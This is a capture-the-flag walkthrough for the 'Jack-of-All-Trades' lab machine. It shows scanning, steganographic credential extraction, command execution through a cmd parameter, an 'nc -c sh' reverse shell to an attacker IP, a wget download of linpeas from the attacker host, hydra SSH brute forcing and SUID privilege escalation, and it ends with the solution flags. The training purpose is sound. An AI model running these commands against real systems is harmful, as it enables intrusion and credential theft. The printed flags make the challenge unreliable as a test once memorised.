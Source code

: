 # Jack-of-All-Trades - Easy

```shell
sudo vim /etc/hosts
#add joat.thm

nmap -T4 -p- -A -Pn -v joat.thm

feroxbuster -u http://joat.thm:22 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,403,404,405,500

steghide info header.jpg
#use found password

steghide info stego.jpg
#use found password

steghide info jackinthebox.jpg
#requires other password

steghide extract -sf header.jpg

steghide extract -sf stego.jpg

cat creds.txt
#this does not contain creds

cat cms.creds
#this contains creds for jackinthebox

#log into /recovery.php
#and get command execution

nc -nvlp 4444
#run reverse shell command
#we get reverse shell

python -c 'import pty;pty.spawn("/bin/bash")'

#check common directories
ls -la /opt

ls -la /var/www

ls -la /home
#this contains a list

cat /home/jacks_password_list
#copy contents for ssh bruteforce

vim jackslist.txt
#paste passwords

hydra -l jack -P jackslist.txt joat.thm -s 80 ssh
#this gives us a valid password

ssh jack@joat.thm -p 80

ls -la
#contains user.jpg instead of user.txt

#in attacker machine
scp -P 80 jack@joat.thm:/home/jack/user.jpg /home/sv

#view user.jpg to get user flag

python3 -m http.server

#in jack ssh
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#strings binary has SUID bit set
#get exploit from GTFObins

LFILE=/root/root.txt

/usr/bin/strings "$LFILE"
#gives root flag
```

* Open ports & services:

  * 22 - http - Apache httpd 2.4.10 (Debian)
  * 80 - ssh - OpenSSH 6.7p1

* Here, the ```http``` and ```ssh``` ports seem to be reversed.

* We can check the webpage on port 22, but our Firefox browser does not allow us; so we will have to modify the config settings first.

* The webpage can be accessed after the changes - it contains info about 'jack'.

* The webpage also includes some images - we can check if these images contain any clues using ```steganography``` tools.

* Looking at the source code of the webpage, it mentions two things - /recovery.php, and a base64-encoded string.

* We can decode the string and it gives us a name 'Johny Graves' and a password "u?WtKSraq"; we can maybe use this later.

* Using ```steghide```, we can see that all three images contain embedded data.

* With the password found earlier, we are able to get 'cms.creds' from 'header.jpg', and 'creds.txt' from 'stego.jpg'.

* One of these creds files gives us the creds "jackinthebox:TplFxiSHjY".

* We can login using these creds into /recovery.php

* Now, this page says "GET me a 'cmd' and I'll run it for you Future-Jack".

* This is a clue for using the ```cmd``` parameter to run a command.

* So, we can simply use '/index.php?cmd=id' to execute the ```id``` command.

* Now, we can get reverse shell by setting up listener and executing a reverse shell one-liner:

```nc -c sh 10.14.31.212 4444```

* Enumerating common directories such as /opt and /var/www, in /home directory we can see a password list for 'jack'.

* We can copy the contents of the list, and paste it to our machine, where we can attempt SSH bruteforce for 'jack'.

* For bruteforcing, we can use ```hydra``` and attack SSH on port 80.

* This gives us a valid password, and we can now login as jack via SSH.

* In home directory, instead of user flag, we have user.jpg - we can transfer this using ```scp``` and conduct stego analysis again.

* After transferring the .jpg, we can simply view the file to get the user flag.

* We can do privesc enumeration using ```linpeas.sh```.

* This shows that the ```strings``` binary has SUID bit set.

* We can get the exploit from GTFObins for this, and this way we can read the root flag.

```markdown
1. User Flag - securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

2. Root Flag - securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```
